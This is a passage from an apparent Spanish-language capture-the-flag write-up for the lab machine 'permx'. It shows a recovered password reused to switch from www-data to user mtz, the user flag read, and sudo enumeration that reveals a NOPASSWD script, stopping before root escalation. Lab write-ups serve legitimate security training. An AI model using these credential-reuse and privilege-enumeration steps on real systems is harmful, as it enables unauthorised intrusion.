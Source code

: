 La contraseña es “03F6lY3uXAP2bkW8”.


## [](#header-2)su / SSH

Esa contraseña se comparte como contraseña para el usuario mtz. sucambiará a ese usuario:

```
www-data@permx:/var/www/chamilo$ su mtz
Password: 
mtz@permx:/var/www/chamilo$

```

Y puedo leer user.txt:

```
mtz@permx:~$ cat user.txt
0a5f7505************************

```

# [](#header-1)Shell como root

No hay nada de interés en el directorio de inicio de mtz:

```
mtz@permx:~$ ls -la
total 32
drwxr-x--- 4 mtz  mtz  4096 Jun  6 05:24 .
drwxr-xr-x 3 root root 4096 Jan 20 18:10 ..
lrwxrwxrwx 1 root root    9 Jan 20 18:12 .bash_history -> /dev/null
-rw-r--r-- 1 mtz  mtz   220 Jan  6  2022 .bash_logout
-rw-r--r-- 1 mtz  mtz  3771 Jan  6  2022 .bashrc
drwx------ 2 mtz  mtz  4096 May 31 11:14 .cache
lrwxrwxrwx 1 root root    9 Jan 20 18:37 .mysql_history -> /dev/null
-rw-r--r-- 1 mtz  mtz   807 Jan  6  2022 .profile
drwx------ 2 mtz  mtz  4096 Jan 20 18:10 .ssh
-rw-r----- 1 root mtz    33 Jan 20 18:16 user.txt
```

## [](#header-2)sudo

mtz puede ejecutar un script Bash como cualquier usuario con sudo:

```
mtz@permx:~$ sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```
